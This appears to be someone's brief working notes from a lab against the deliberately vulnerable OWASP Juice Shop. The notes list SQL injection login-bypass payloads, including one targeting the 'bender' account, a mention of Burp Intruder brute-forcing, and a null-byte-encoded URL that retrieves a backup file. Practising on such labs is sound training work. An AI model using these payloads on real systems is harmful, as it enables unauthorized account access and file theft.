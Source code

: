 # OWASP Jucy Shop

# Date: 16.09.2020

IP:`10.10.234.58`

------------
find in html code YT link: https://www.youtube.com/watch?v=9PnbKL3wuH4

--
# SQL injection

1. `' OR 1=1 --'`
2. `email --`
3. bender@juice-sh.op --> burp intruder brutforce ... takes time thatswhy i found other way: `' or 1=1 and email like('%bender%');--`

http://10.10.234.58/ftp/package.json.bak%2500.md


